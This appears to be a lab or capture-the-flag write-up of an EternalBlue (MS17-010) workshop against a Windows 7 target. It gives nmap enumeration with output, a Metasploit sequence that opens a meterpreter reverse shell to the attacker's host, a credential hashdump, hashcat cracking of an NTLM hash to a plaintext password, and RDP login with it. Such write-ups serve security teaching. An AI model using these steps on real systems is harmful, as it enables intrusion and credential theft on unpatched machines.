

# The Blue Room - EternalBlue Exploit Workshop

## Overview

In this workshop, we focus on exploiting **MS17-010 (EternalBlue)**, a critical SMB vulnerability that allows remote code execution on unpatched Windows machines. We used **Metasploit** to gain access to a target system. This is a step-by-step guide to exploit the vulnerability and gain access to a machine.

---

## Table of Contents

1. [Enumeration Phase](#enumeration-phase)
2. [Exploitation Phase](#exploitation-phase)
3. [Cracking Phase](#cracking-phase)
4. [Accessing the Target](#accessing-the-target)
5. [Conclusion](#conclusion)

---

## Enumeration Phase

We started by performing an **Nmap scan** to discover open ports, services, and the operating system of the target machine. Here is the command used for enumeration:

```bash
nmap <TARGET-IP> -A -v

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC

OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
Workgroup: WORKGROUP

```
The scan revealed several open ports, including 135/tcp (Microsoft RPC), 139/tcp (NetBIOS), and 445/tcp (Microsoft DS), which are commonly associated with **SMB and RPC services**. Additionally, the target machine is running **Windows 7 Professional 7601 Service Pack 1** in the WORKGROUP workgroup, making it potentially vulnerable to the EternalBlue exploit (MS17-010)

## Exploitation Phase
Next, we'll proceed with the exploitation phase where we use **Metasploit** to automate the exploitation of the MS17-010 (**EternalBlue**) vulnerability.

```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <TARGET-IP>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR-IP>
exploit
```
## Cracking Phase

```bash
hashdump  # Dump user credentials

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

you need to extract the Jon user hashed password which is in this case "**ffb43f0de35be4d9917ac0cc8ad57f8d**"

```bash
hashcat -m 1000 -a 0 "ffb43f0de35be4d9917ac0cc8ad57f8d" /usr/share/wordlists/rockyou.txt

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

ffb43f0de35be4d9917ac0cc8ad57f8d:alqfna22                 
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: ffb43f0de35be4d9917ac0cc8ad57f8d
Time.Started.....: Sun Mar  9 17:27:18 2025 (3 secs)
Time.Estimated...: Sun Mar  9 17:27:21 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  4873.3 kH/s (0.08ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10201600/14344385 (71.12%)
Rejected.........: 0/10201600 (0.00%)
Restore.Point....: 10199040/14344385 (71.10%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: alsinah -> alpha2345
Hardware.Mon.#1..: Util: 24%
```

we found the password which is "**alqfna22**"


## Accessing the Target

since the RDP PORT is open we can use 

```bash
rdesktop -u Jon -p alqfna22 <TARGET-IP>
```


we are in and we have **full control** on the JON PC . It's like we are controlling his own PC at home.
